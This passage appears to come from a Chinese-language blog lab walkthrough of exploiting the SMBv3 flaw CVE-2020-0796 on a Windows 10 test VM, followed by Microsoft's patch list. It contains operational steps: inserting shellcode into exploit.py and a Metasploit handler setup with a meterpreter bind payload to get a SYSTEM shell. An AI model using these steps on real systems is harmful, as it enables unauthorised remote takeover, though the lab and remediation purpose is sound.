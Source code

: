 这里是exploit.py里的内容

![11](https://the0n3.top/medias/永恒之黑/11.png)

需要把evil.py后面的字节数据替换到exploit里的USER_PAYLOAD里

简单的做法，用notepad++或者sublinetext把evil.py里的buf全部替换为USER_PAYLOAD，替换到exploit.py里即可

msf开启监听功能：

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set lport 4444
set rhost 192.168.237.136
run
```

这样kali使用msf监听4444端口，等待靶机反弹shell

![12](https://the0n3.top/medias/永恒之黑/12.png)

再开一个终端，执行刚才替换好的exploit.py。kali没接收到反弹的shell？看看你win10是不是打蓝屏了(x)

![13](https://the0n3.top/medias/永恒之黑/13.png)

拿到shell啦！！接收不到shell或者打了两三次了，可以重启下win10靶机

![14](https://the0n3.top/medias/永恒之黑/14.png)

拿到最高权限了

![15](https://the0n3.top/medias/永恒之黑/15.png)

打完恢复快照，发现硬盘大了32个g，这个靶机里填充了32个g垃圾payload吗

## 修复建议

官方建议：[Windows SMBv3 客户端/服务器远程代码执行漏洞](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-0796)


- 安装官方补丁 给对应的系统打微软出的最新补丁

| 系统类型                                                | 介绍                                                        |                           下载链接                           |
   | ------------------------------------------------------- | :---------------------------------------------------------- | :----------------------------------------------------------: |
   | Windows 10 Version 1903 for 32-bit Systems              | [KB4551762介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
   | Windows 10 Version 1903 for ARM64-based Systems         | [KB4551762介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
   | Windows 10 Version 1903 for x64-based Systems           | [KB4551762介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
   | Windows 10 Version 1909 for 32-bit Systems              | [KB4551762介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
   | Windows 10 Version 1909 for ARM64-based Systems         | [KB4551762介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
   | Windows 10 Version 1909 for x64-based Systems           | [KB4551762介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
   | Windows Server, version 1903 (Server Core installation) | [KB4551762介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
   | Windows Server, version 1909 (Server Core installation) | [KB4551762介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
